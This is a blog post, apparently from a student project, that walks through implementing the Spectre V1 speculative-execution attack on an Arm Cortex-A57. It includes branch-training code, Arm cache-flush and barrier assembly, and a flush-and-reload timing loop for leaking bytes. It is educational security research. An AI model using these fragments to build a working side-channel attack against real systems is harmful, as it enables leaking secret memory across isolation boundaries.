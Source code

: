 ```yaml
---
layout: post
title: Spectre on Arm cortex A57 English Version
categories: [Microarchitecture vulnerability, English Version]
description: Cache
keywords: Microarchitecture
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


# Spectre V1 on Arm
This article mainly discusses the implementation of Spectre v1 on Arm Cortex 57. For specific principles, please refer to the paper at https://spectreattack.com/spectre.pdf. The principle of Spectre is not complicated, but its specific implementation is not easy to describe. (My ability to express myself is very limited, and I usually score poorly in literature classes. If you find this article confusing, you can email me for clarification, although there are some questions I may not be able to answer.) All the code will be open-sourced after the completion of the graduation project.
## Spectre V1
Basically, if I flush `array1_size`, the CPU needs some time to access physical memory to retrieve the variable's value. During this process, many processors may trigger out-of-order execution, skipping the conditional branch. Typically, there is a cache inside the CPU to store some results of conditional branches. When skipping the conditional branch, the CPU refers to this cache. If the previous several conditional branches were all true, then in the process of out-of-order execution, this branch would be assumed to be taken by default, and the code inside the branch would be executed.
```
if (x < array1_size)
    y = array2[array1[x] * 4096];
```

Suppose we manipulate the branch prediction cache so that it always predicts the result of this condition as true. However, if we pass a value `x` greater than `array_size`, the program can access a position beyond the range of `array2`, and then use the retrieved value to access `reloadbuffer` (or `array1`). In this scenario, we can exploit the flush-and-reload side-channel to obtain this value.


## Spectre V1 Arm cortex A57 implementation
There is an open-source repository that currently implements the Spectre V1 attack on Arm architecture. In my implementation, I leverage their branch training approach https://github.com/V-E-O/PoC/tree/master/CVE-2017-5753.

The general approach is as follows:

Firstly, we use the flush-and-reload technique to determine the boundary between cache hits and cache misses.
```
CACHE_THRESHOLD = measure_latency();
```

Next, we start training branches and leak the string we want to retrieve. Firstly, we flush our `reloadbuffer` from the cache. It's preferable to add a memory barrier (`barrier`) before each memory operation to ensure that the flush completes before subsequent instructions start executing, thus preventing flushes from being interrupted by out-of-order execution.

```
for (int i = 0; i < 256; i++)
	cacheflush(&reloadbuffer[i * STRIDE]); 
```
```
static inline __attribute__((always_inline)) void barrier(void){
  asm volatile ("DMB SY ");
}
```

We also flush the size of the string we want to leak from the cache, causing the branch prediction to slow down.
```
cacheflush(&array1_size);
```

At this point, we begin training the branch prediction to predict the branch as taken. Only when `j` is divisible by `10`, `probe_addr` will be set to `target`, which is the address we want to leak. Otherwise, `j` will be set to `train_index`, where `train_index` falls within the range of `array1_size`. At the end of each iteration, probe_addr will be set back to target (outside the range of `array1`).




```
probe_addr = ((j % 10) - 1) & ~0xFFFF; 
probe_addr = (probe_addr | (probe_addr >> 16)); 
probe_addr = train_index ^ (probe_addr & (target ^ train_index));
cacheflush(&array1_size);   // flush again (I dont know why)
spectre_v1(&probe_addr);
```
```
void spectre_v1(size_t *index) {
	if (*index < array1_size)
	{
		pick = reloadbuffer[fake_buffer[*index] * STRIDE];
	}
}
```


Finally, we perform the `reload` operation. Here, we use a scrambled access pattern `index = ((i * 167) + 13) & 255`; to prevent interference from the prefetcher. If the access time to a position is less than the calculated `CACHE_THRESHOLD`, it indicates a cache hit, meaning that the position has been accessed in the `spectre_v1` function. Therefore, this value is the byte we want to leak.
```
for (int i = 0; i < 256; i++)
{
	index = ((i * 167) + 13) & 255;
	measured_clock = timed_read(&reloadbuffer[index * STRIDE], &start, &end);
	if (measured_clock <= CACHE_THRESHOLD && index != fake_buffer[tries % array1_size])
		results[index]++; 
}
```

Some of the more important inline assembly functions look something like this:
```
static inline __attribute__((always_inline)) void cacheflush(void* address)
{
  	asm volatile ("DC CIVAC, %0" :: "r"(address));
  	asm volatile ("DSB ISH");
  	asm volatile ("ISB");
}

static inline __attribute__((always_inline)) void barrier(void){
  	asm volatile ("DMB SY ");
}

//#include <time.h>
void clock_init(struct timespec *start){
  	clock_gettime(CLOCK_REALTIME, start);
}

void clock_end(struct timespec *end){
  	clock_gettime(CLOCK_REALTIME, end);
}

uint64_t get_clock(struct timespec start, struct timespec end){
  	return BILLION * (end.tv_sec - start.tv_sec) + end.tv_nsec - start.tv_nsec;
}

static uint64_t timed_read(volatile uint8_t *addr, struct timespec *start, struct timespec *end) {
	volatile uint8_t pick = 0; 
  	clock_init(start);
	pick = *addr;
  	clock_end(end);
	barrier();
  	return get_clock(*start, *end);
}
```

